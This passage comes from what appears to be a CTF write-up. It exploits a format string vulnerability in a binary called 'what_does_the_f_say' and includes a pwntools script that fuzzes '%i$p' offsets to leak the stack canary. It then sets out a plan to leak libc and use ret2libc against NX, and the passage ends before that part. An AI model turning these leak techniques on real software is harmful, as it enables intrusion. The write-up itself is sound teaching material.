 So there 2 things we need to do:

1. Use the format string vulnerability to leak the stack canary.
2. Use the format string vulnerability to leak the base address of the `libc` library and where it is loaded.
3. Afterwards, abuse Ret2Libc to defeat NX.

## Exploitation

### Leaking Canary

In Linux binaries, the canaries always end with `00`. We can create a simple `for` loop with `pwntools` to the different 'positions' using `$x%p`. `x` in this case is a whole number, and it indicates which 'position' we are leaking (for example, `$7%p` would point to the 7th position).&#x20;

```python
from pwn import *

def canary():
	for i in range(1, 50):
		p = process('./what_does_the_f_say')
		p.recv()
		p.sendline("1")
		p.recv()
		p.sendline("2")
		p.recv()
		p.sendline(f"%{i}$p")	
		print(f"Offset: {i}")
		print(p.recv())
		p.close()

def main():
	canary()
	#libc()
	#shell()

main()
```

We can pipe the output to a file and read the address retrieved from each position. I found that the offset of 23 returned an address ending with 00, which means it must be the stack canary!

<figure><img src="../../.gitbook/assets/image (4043).png" alt=""><figcaption></figcaption></figure>

### Leaking Libc + Finding Libc

Next, we need to figure out a way to leak the `libc` address. My thinking is that this address should come after the stack canary, so I started fuzzing positions after it.&#x20;
